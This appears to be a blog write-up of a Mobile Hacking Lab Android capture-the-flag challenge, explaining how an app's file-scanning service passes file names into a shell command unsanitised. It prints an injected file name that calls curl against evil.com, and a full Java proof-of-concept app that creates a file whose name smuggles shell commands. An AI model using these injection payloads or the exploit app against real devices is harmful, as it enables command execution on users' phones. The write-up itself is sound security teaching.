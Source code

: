 ```yaml
---
title:  "Mobile Hacking Lab Cyclic Scanner Writeup"
date:   2024-01-22T16:41:00-0400
categories:
  - writeup
tags:
  - android
  - ctf
---
```



Hello everyone!
In this blog post , I will try to explain my solution steps for Cyclic Scanner challenge from Mobile Hacking Lab. 

## Static Analysis
Application have only MainActivity activity and this activity have a switch for activating a service.
Let's analyse code with jadx.
![](./assets/images_mhl_cyclicscanner/1.png)

When the manifest file is examined, some remarkable information is obtained.
- It can be predicted that it will perform file operations on external storage by requesting the MANAGE_EXTERNAL_STORAGE permission.
- Indicates that it will define a user-noticeable service (showing a notification in the status bar) using the FOREGROUND_SERVICE permission. (ScanService defined as service in manifest file.)

![](./assets/images_mhl_cyclicscanner/2.png)

When the codes of the MainActivity activity are examined, it is seen that if the key button shown to the user on the screen is activated, the scanning service starts and then an intent is sent to the ScanService service.

![](./assets/images_mhl_cyclicscanner/3.png)

When the codes of the ScanService service are examined, it is seen that when the service is started, it scans the files in the external storage and sends these files to the scanFile method in the ScanEngine class. Depending on the value returned from this method, whether the file is safe or infected is written to the logcat.

![](./assets/images_mhl_cyclicscanner/4.png)

The scanFile method calculates the sha1 hash value of the File object sent to it and checks whether it is one of the known malicious files. However, there is a command injection vulnerability here because the file location is added to the command string to be executed without any checking or cleaning process.

For example:
```
test.txt ; curl evil.com
```
If we set that string as the name of a file on an external storage, this name is added after the toybox command with “;” The commands left behind the sign are executed and a request is sent to evil.com. Any command can be run here within the scope of file name restrictions in the Android operating system. If you want to prepare a malicious application that creates the necessary file for the command to be run, the following piece of code can be used as an example:

```java
public class MainActivity extends AppCompatActivity {

    private static final int PERMISSION_REQUEST_CODE = 1;

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        if (checkPermission()) {
            createTestFile();
        } else {
            requestPermission();
        }
    }

    private boolean checkPermission() {
        int writeExternalStoragePermission = ContextCompat.checkSelfPermission(getApplicationContext(), Manifest.permission.WRITE_EXTERNAL_STORAGE);
        return writeExternalStoragePermission == PackageManager.PERMISSION_GRANTED;
    }

    private void requestPermission() {
        ActivityCompat.requestPermissions(this, new String[]{Manifest.permission.WRITE_EXTERNAL_STORAGE}, PERMISSION_REQUEST_CODE);
    }

    @Override
    public void onRequestPermissionsResult(int requestCode, String[] permissions, int[] grantResults) {
        super.onRequestPermissionsResult(requestCode, permissions, grantResults);
        if (requestCode == PERMISSION_REQUEST_CODE) {
            if (grantResults.length > 0 && grantResults[0] == PackageManager.PERMISSION_GRANTED) {
                createTestFile();
            } else {
                Toast.makeText(getApplicationContext(), "Permission Denied!", Toast.LENGTH_SHORT).show();
            }
        }
    }

    private void createTestFile() {
        // your payload here:
        String fileName = "test.txt; mkdir hacked; cd hacked; touch pwnedddd ";

        File file = new File(Environment.getExternalStoragePublicDirectory(Environment.DIRECTORY_DOWNLOADS),fileName);

        try {
            boolean created = file.createNewFile();
            if (created) {
                Toast.makeText(getApplicationContext(), "File created: " + file.getAbsolutePath(), Toast.LENGTH_LONG).show();
            } else {
                Toast.makeText(getApplicationContext(), "File already exists: " + file.getAbsolutePath(), Toast.LENGTH_LONG).show();
            }
        } catch (IOException e) {
            e.printStackTrace();
            Toast.makeText(getApplicationContext(), "Failed to create file!", Toast.LENGTH_SHORT).show();
        }
    }

}

```
Don't forget to add 

```
<uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE" />
```

permission to the manifest file so that files can be created in external storage.

`PoC screenshot will be added here.`

Thanks for reading! See you in next writeups 👋🏻👋🏻